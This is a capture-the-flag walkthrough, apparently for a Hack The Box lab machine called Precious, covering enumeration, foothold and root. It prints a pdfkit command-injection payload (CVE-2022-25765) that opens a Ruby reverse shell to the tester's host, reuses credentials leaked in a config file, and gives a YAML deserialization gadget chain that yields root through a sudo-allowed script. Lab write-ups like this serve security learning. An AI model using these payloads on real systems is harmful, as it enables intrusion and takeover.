


# Precious
**OS:** Linux
**Difficulty:** Easy

## Enumeration:

I'll start with a simple port scan.
```bash
nmap -sC -sV -p- 10.129.228.98 -oN nmap.txt

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 84:5e:13:a8:e3:1e:20:66:1d:23:55:50:f6:30:47:d2 (RSA)
|   256 a2:ef:7b:96:65:ce:41:61:c4:67:ee:4e:96:c7:c8:92 (ECDSA)
|_  256 33:05:3d:cd:7a:b7:98:45:82:39:e7:ae:3c:91:a6:58 (ED25519)
80/tcp open  http    nginx 1.18.0
|_http-title: Did not follow redirect to http://precious.htb/
|_http-server-header: nginx/1.18.0
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

I will first examine the HTTP server.


I'll start a simple python server.
```bash
python3 -m http.server 80
```

I'll also start Burp Suite to intercept the response.



As we can see, "pdfkit v0.8.6" is used to convert the pages into a pdf format. 

## Foothold:

I found a POC of a RCE vulnerability in this program.

[POC](https://github.com/UNICORDev/exploit-CVE-2022-25765)

I'll use it to obtain a shell on the system.

```bash
./exploit-CVE-2022-25765.py -s 10.10.14.134 6666

        _ __,~~~/_        __  ___  _______________  ___  ___
    ,~~`( )_( )-\|       / / / / |/ /  _/ ___/ __ \/ _ \/ _ \
        |/|  `--.       / /_/ /    // // /__/ /_/ / , _/ // /
_V__v___!_!__!_____V____\____/_/|_/___/\___/\____/_/|_/____/....
    
UNICORD: Exploit for CVE-2022–25765 (pdfkit) - Command Injection
OPTIONS: Reverse Shell Mode
PAYLOAD: http://%20`ruby -rsocket -e'spawn("sh",[:in,:out,:err]=>TCPSocket.new("10.10.14.134","6666"))'`
LOCALIP: 10.10.14.134:6666
WARNING: Be sure to start a local listener on the above IP and port.
EXPLOIT: Copy the payload above into a PDFKit.new().to_pdf Ruby function or any application running vulnerable pdfkit.
```

I will start a listening port on my system and send the payload.



It worked! We can improve the shell.
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

## Lateral Movement:

I'll search for any unusual file or folder in the home directory of the user.
```bash
ruby@precious:~$ ls -la
ls -la
total 28
drwxr-xr-x 4 ruby ruby 4096 Jan 26 05:51 .
drwxr-xr-x 4 root root 4096 Oct 26  2022 ..
lrwxrwxrwx 1 root root    9 Oct 26  2022 .bash_history -> /dev/null
-rw-r--r-- 1 ruby ruby  220 Mar 27  2022 .bash_logout
-rw-r--r-- 1 ruby ruby 3526 Mar 27  2022 .bashrc
dr-xr-xr-x 2 root ruby 4096 Oct 26  2022 .bundle
drwxr-xr-x 3 ruby ruby 4096 Jan 26 05:51 .cache
-rw-r--r-- 1 ruby ruby  807 Mar 27  2022 .profile
```

".bundle" seems unusual. Taking a look inside the directory, we find a file with plaintext credentials.
```bash
cd .bundle
ls

#
config
#

cat config

#
BUNDLE_HTTPS://RUBYGEMS__ORG/: "henry:Q3c1AqGHtoI0aXAYFH"
#
```

We can use them to establish a SSH connection.

```bash
ssh henry@precious.htb
Q3c1AqGHtoI0aXAYFH
```

We can now get the user flag.
```bash
cat user.txt
```

### We got the user flag!

## Privilege escalation:

Let's see if we can run something as root.
```bash
sudo -l

User henry may run the following commands on precious:
    (root) NOPASSWD: /usr/bin/ruby /opt/update_dependencies.rb
```

Let's take a look at the ruby file we can run.
```bash
cat /opt/update_dependencies.rb

# Compare installed dependencies with those specified in "dependencies.yml"
require "yaml"
require 'rubygems'

# TODO: update versions automatically
def update_gems()
end

def list_from_file
    YAML.load(File.read("dependencies.yml"))
end

def list_local_gems
    Gem::Specification.sort_by{ |g| [g.name.downcase, g.version] }.map{|g| [g.name, g.version.to_s]}
end

gems_file = list_from_file
gems_local = list_local_gems

gems_file.each do |file_name, file_version|
    gems_local.each do |local_name, local_version|
        if(file_name == local_name)
            if(file_version != local_version)
                puts "Installed version differs from the one specified in file: " + local_name
            else
                puts "Installed version is equals to the one specified in file: " + local_name
            end
        end
    end
end
```

We can see the function "list_from_file" uses relative path instead of absolute path. There is an [exploit](https://staaldraad.github.io/post/2021-01-09-universal-rce-ruby-yaml-load-updated/) for this.
First, let us check the Ruby version.

```bash
/usr/bin/ruby --version
ruby 2.7.4p191 (2021-07-07 revision a21a3b7d23) [x86_64-linux-gnu]
```

So the exploit should work. I'll make a "dependencies.yml" with the following payload.
```yaml
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: bash
         method_id: :resolve
```

Now, we can send it.
```bash
sudo /usr/bin/ruby /opt/update_dependencies.rb

whoami
root
```

It worked! We can now retrieve the root flag!
```bash
cat /root/root.txt
```

### We got the root flag!